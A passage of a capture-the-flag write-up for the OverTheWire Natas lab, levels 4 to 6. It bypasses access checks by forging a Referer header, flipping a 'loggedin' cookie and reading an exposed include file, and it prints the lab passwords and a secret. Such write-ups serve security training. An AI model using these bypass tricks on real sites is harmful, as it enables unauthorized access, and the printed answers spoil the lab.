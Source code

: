 ```text
F12 -> network -> reload page ->  edit headers  
Add following  
Referer: http://natas5.natas.labs.overthewire.org/  

resend  
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

### Natas 5

Access disallowed. You are not logged in

```text
F12 -> network -> load page -> look at cookie header.  
Cookie: __cfduid=d95a9db8b02c419d414e69605e6cd5dc81557856656; loggedin=0   

Change loggedin=0 to loggedin=1  
resend  

Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

### natas 6

```text
Click on view source code.  
This gives us 1 script
```

```php
include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

```text
If POST = $Secret -> Access granted.  
Where is secrect ?  
Look at include  
view-source:http://natas6.natas.labs.overthewire.org/includes/secret.inc
```

```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```
